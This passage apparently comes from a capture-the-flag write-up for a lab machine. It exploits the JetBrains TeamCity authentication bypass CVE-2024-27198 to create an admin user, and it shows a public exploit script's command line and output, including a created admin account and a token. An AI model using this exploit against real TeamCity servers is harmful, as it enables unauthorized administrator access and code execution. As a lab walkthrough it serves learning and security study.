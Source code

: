 Effectively the exploit lets you bypass the jsp parameter restrictions and send a post request to any endpoint desired, here it is users to make a new user with the role SYSTEM_ADMIN. Additionally a GET request to the endpoint returns all users.

![Teamcity user read]({{ page.img }}_teamcity_rest_test.png)

Endpoint works, we have access, time to make the new user of raccoon.

![Teamcity CVE-2024-27198]({{ page.img }}_burp_teamcity_exploit.png)

![Teamcity raccoon admin* login]({{ page.img }}_teamcity_dashboard.png)

Scouring a bit the only functionality I have here is to create a project:

# User as tcuser

## CVE-2024-27198, take 2

[https://github.com/Stuub/RCity-CVE-2024-27198](https://github.com/Stuub/RCity-CVE-2024-27198) Demonstrates a way to use the debug process to run code within rest api using this auth bypass. 

```python
python3 exploit.py -t http://teamcity.runner.htb -c whoami



░▒▓███████▓▒░ ░▒▓██████▓▒░░▒▓█▓▒░▒▓████████▓▒░▒▓█▓▒░░▒▓█▓▒░ 
░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░  ░▒▓█▓▒░   ░▒▓█▓▒░░▒▓█▓▒░ 
░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░      ░▒▓█▓▒░  ░▒▓█▓▒░   ░▒▓█▓▒░░▒▓█▓▒░ 
░▒▓███████▓▒░░▒▓█▓▒░      ░▒▓█▓▒░  ░▒▓█▓▒░    ░▒▓██████▓▒░  
░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░      ░▒▓█▓▒░  ░▒▓█▓▒░      ░▒▓█▓▒░     
░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░  ░▒▓█▓▒░      ░▒▓█▓▒░     
░▒▓█▓▒░░▒▓█▓▒░░▒▓██████▓▒░░▒▓█▓▒░  ░▒▓█▓▒░      ░▒▓█▓▒░     
    
                                                                                    
    

Developed by: @stuub | Github: https://github.com/stuub

Admin Account Creation & RCE on JetBrains TeamCity in correspondance to (CVE-2024-27198)
Purely for ethical and educational purposes

Usage: python3 RCity.py -t http://teamcity.com:8111
[*] Target: http://teamcity.runner.htb

[*] Getting Tomcat version...
[+] Tomcat Version: Apache Tomcat/9.0.75

[*] Gathering OS Info...
[+] OS Name: Linux
[+] OS Architecture: amd64

[*] Creating Admin user...
[+] Admin user created successfully
[+] Admin user: RCity_Rules_899
[+] Password: sZKYbfiD
[*] User ID: 15

[*] Getting CSRF token...
[+] CSRF token: CD6DC464470E9CB3A6D7809EE1DE949F

[*] Creating token...
[*] Token created successfully
```